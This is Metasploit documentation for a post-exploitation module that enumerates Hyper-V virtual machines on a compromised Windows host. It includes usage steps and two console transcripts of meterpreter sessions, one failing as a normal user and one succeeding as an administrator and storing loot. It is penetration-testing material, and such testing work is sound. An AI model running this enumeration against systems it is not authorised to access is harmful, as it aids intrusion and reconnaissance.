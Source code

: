 ## Vulnerable Application

  This post-exploitation module will check if a host is running Hyper-V. If the host is running Hyper-V, the module
  will gather information about all Hyper-V VMs installed on the host, including the name of the VM, its status,
  CPU usage, version of the Hyper-V engine that it relies on, and its state (running, suspended, offline, etc).

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_hyperv_vms`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. If the host has Hyper-V installed, a list of Hyper-V VMs which are on target host will be returned, along with their attributes.

## Options

This module just uses the standard options available to any post module.

## Extracted data

  - Name of each VM
  - State of each VM
  - CPU Usage of each VM
  - How long each VM has been running for, down to the milliseconds.
  - Amount of memory assigned to each VM
  - Status of each VM
  - The version of the Hyper-V engine that each VM is using.

## Scenarios

### Meterpreter session as a normal user on Windows Server 2019 Standard Edition - fails as user lacks required permissions

```
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.20.150.24:4444
[*] Sending stage (200262 bytes) to 172.20.150.24
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.20.150.24:4444) at 2020-09-10 18:33:16 -0500

meterpreter > getuid
Server username: RAPID7\normal
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeMachineAccountPrivilege

meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use post/windows/gather/enum_hyperv_vms 
msf post(windows/gather/enum_hyperv_vms) > show options

Module options (post/windows/gather/enum_hyperv_vms):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(windows/gather/enum_hyperv_vms) > set session 1
session => 1
msf post(windows/gather/enum_hyperv_vms) > run

[+] Compressed size: 800
[-] You need to be running as an elevated admin or a user of the Hyper-V Administrators group to run this module
[*] Post module execution completed
msf post(windows/gather/enum_hyperv_vms) > 
```

### Meterpreter session as an elevated admin user
```
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.20.150.24:4444
[*] Sending stage (200262 bytes) to 172.20.150.24
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 172.20.150.24:4444) at 2020-09-10 18:43:15 -0500

meterpreter > getuid
Server username: RAPID7\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background
[*] Backgrounding session 2...
msf exploit(multi/handler) > use post/windows/gather/enum_hyperv_vms 
msf post(windows/gather/enum_hyperv_vms) > set SESSION 2 
SESSION => 2
msf post(windows/gather/enum_hyperv_vms) > run

[+] Compressed size: 800
[*] Name           State   CPUUsage(%) MemoryAssigned(M) Uptime           Status             Version
----           -----   ----------- ----------------- ------           ------             -------
Test Machine   Off     0           0                 00:00:00         Operating normally 9.0    
Windows XP SP3 Running 79          2048              02:54:58.3210000 Operating normally 9.0    

[+] Stored loot at /home/gwillcox/.msf4/loot/20200910184541_default_172.20.150.24_host.hyperv_vms_309544.txt
[*] Post module execution completed
msf post(windows/gather/enum_hyperv_vms) > 
```
